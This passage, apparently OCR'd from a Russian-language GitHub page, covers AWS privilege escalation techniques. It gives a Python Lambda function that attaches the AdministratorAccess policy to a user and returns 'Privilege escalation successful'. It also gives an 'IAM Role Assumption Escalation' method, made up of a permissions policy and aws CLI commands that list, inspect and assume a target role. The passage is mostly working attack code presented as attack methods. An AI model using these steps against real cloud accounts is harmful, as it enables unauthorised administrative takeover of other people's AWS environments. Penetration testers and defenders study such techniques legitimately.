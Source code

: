 ##### Код Lambda функции для эскалации:
```python
import boto3
import json

def lambda_handler(event, context):
    iam = boto3.client('iam')
    
    # Попытка прикрепить административную политику
    try:
        iam.attach_user_policy(
            UserName='current-user',
            PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess'
        )
        return {'statusCode': 200, 'body': 'Privilege escalation successful'}
    except Exception as e:
        return {'statusCode': 400, 'body': str(e)}
```

#### 2. **IAM Role Assumption Escalation**

##### Требуемые права:
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": [
                "sts:AssumeRole",
                "iam:ListRoles",
                "iam:GetRole"
            ],
            "Resource": "*"
        }
    ]
}
```

##### Метод атаки:
```bash
# Поиск ролей для принятия
aws iam list-roles

# Получение информации о роли
aws iam get-role --role-name TargetRole

# Попытка принятия роли
aws sts assume-role \
    --role-arn arn:aws:iam::account:role/TargetRole \
    --role-session-name escalation-session
```
